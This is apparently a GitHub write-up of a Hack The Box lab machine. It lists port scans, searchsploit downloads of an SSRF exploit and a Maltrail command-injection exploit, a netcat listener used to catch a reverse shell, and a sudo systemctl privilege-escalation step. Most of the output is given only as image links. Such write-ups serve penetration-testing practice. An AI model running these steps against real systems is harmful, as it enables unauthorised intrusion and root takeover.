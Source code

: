 ```
rustscan -a 10.10.11.224 -r 0-65535 --ulimit 5000
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/eb7f80db-8ea9-414a-9854-1341815a5d8b)

```
nmap -Pn -sC -sV -p 22,55555 10.10.11.224
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/3940691b-cf5c-4028-99fe-e2e498ce1d8e)

HTTP 55555
```
http://10.10.11.224:55555/web
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/d765624b-9fbf-476d-9ef9-ffbced68b099)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/79f69a5d-4089-415f-a730-95af922adc0a)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/90cf2208-534e-48e8-ac26-f19e52370a7d)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/e3295c04-4b3e-47ca-9d22-bbcb09054e93)

Search Exploits
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/133c49dc-5684-4ead-ab67-a918ada9b649)

Download Exploit
```CSS
searchsploit -m python/webapps/51675.sh
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/22c3d009-796c-4673-b744-f4fc250d2903)

Run Exploit
```CSS
/51675.sh http://10.10.11.224:55555/ http://127.0.0.1:80/
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/21037b3a-2ebd-4701-97e3-716eab11b387)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/5a3aa473-763c-4074-b1d5-82b081f3226f)

Search Exploits
```CSS
searchsploit maltrail
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/4925095c-7d81-4c89-bfbc-b1a32a2c2a6c)

Download Exploit
```CSS
searchsploit -m python/webapps/51676.py
```

Start Netcat Listener
```CSS
rlwrap nc -nlvvp 4444
```

Run Exploit
```
python3 51676.py 10.10.14.4 4444 http://10.10.11.224:55555/nmsxly
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/d1f9fe95-40a3-4694-a9ef-ebf126e09f4f)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/3dde2cda-02a1-4206-92ef-1ee52146c66d)

Privilege Escalation
```CSS
sudo -l
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/d5572bae-5d90-44bc-94bf-05e1dde27be4)

```CSS
sudo systemctl status trail.service
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/d787cd01-cd77-43ca-834e-42ba5f899c29)

Reference: https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-systemctl-privilege-escalation/
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/e56fc35b-43e5-4a91-b509-4b488c90f000)

![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/4d9a0eb9-77f7-4635-b78b-65c9643f2f83)
